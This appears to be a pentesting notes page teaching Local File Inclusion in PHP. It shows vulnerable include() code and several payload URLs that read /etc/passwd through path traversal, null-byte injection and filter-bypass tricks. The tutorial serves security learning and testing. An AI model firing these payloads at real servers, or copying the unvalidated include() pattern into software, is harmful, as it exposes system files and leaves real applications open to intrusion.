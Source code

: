 ```yaml
---
title: Local File Inclusion
---
```


_Local File Inclusion_ attacks against web applications are often possible due to a developers' lack of security awareness.

With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications.

LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as [path-traversal](/knowledge/OffSec/pentesting/path-traversal.md).

## Example

Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?php
	include($_GET["lang"]);
?>
```

The PHP code above uses a **GET request** via the URL parameter `lang` to **include** the file of the page.

```
http://webapp.com/index.php?lang=EN.php
http://webapp.com/index.php?lang=AR.php
```

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation:

```
http://webapp.com/index.php?lang=/etc/passwd
```

## Example #2

The developer might decided to specify the directory inside the function:

```php
<?PHP
	include("languages/". $_GET['lang']);
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.

The `include` function allows us to include any called files into the current page. The following will be the exploit:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

## Example #3

In the first two cases, we _checked_ the code for the web app, and then we knew how to exploit it. In case of [black-box-testing](/black-box-testing), we need to take a look of the error messages in order to understand how the data is passed and processed into the web app, eg:

```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/**THM-4**/index.php on line 12
```

The error message discloses what the include function looks like:  `include(languages/THM.php);`

We can tell the function that includes files in the languages directory is adding `.php` at the end of the entry. Thus the valid input will be something like `index.php?lang=EN`, where the file EN is located inside the given `languages/` and named  `EN.php`.

From the error message we also know the full web application directory which is `/var/www/html/THM-4/`

To exploit this, we need to use the [dot-dot-slash trick](/knowledge/OffSec/pentesting/path-traversal.md) to get out the current folder:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

We already knew the `/var/www/html/THM-4` path has four levels, but we still receive the error:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error tells us that the developer specifies the file type to pass to the `include` function (namely it has to end with `.php`). To go around that, we need to use [null-byte](/knowledge/OffSec/pentesting/null-byte.md) injection:

```
http://webapp.com/index.php?file=../../../../etc/passwd%00
```

## Example #4 - filtered keywords

Let's say the developer decided to filter keywords to avoid disclosing sensitive information and the `/etc/passwd` file has been filtered.

There are two possible methods to bypass the filter.

- by using the [null byte %00](/knowledge/OffSec/pentesting/null-byte.md)
- the current directory [path-traversal](/knowledge/OffSec/pentesting/path-traversal.md) trick at the end of the filtered keyword (`/.`)

The exploit will be similar to ```

```
http://webapp.thm/index.php?lang=/etc/passwd/.
```

If we try `/etc/passwd/..`, it results to be  `/etc/` and that's because we moved one to the root. If we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.

## Example #5 - input validation

---

Let's say the developer starts to use input validation by filtering some keywords out of it.

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

By using such URL, we got the following error:

```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

From the error message we know that the web application replaces the `../` with the empty string (it defaults the fn call to `include(languages/etc/passwd`).

There are a couple of techniques we can use to bypass this.

We can send the following [payload](/knowledge/OffSec/glossary/payload.md) to bypass it: `....//....//....//....//....//etc/passwd`, as the PHP filter only matches and replaces **the first subset** string it finds (`../`) and doesn't do another pass, turning

```
..//....//....//....//etc/passwd
```

into

```
../../../../etc/passwd
```

## Example 6 - forced directory

If the developer forces the `include` fn to read from a defined directory, namely, if the web application asks to supply input that has to include a directory such as

```
http://webapp.thm/index.php?lang=languages/EN.php
```

then, to exploit this, we need to include the directory in the [payload](/knowledge/OffSec/glossary/payload.md) like so:

```
?lang=languages/../../../../../etc/passwd
```
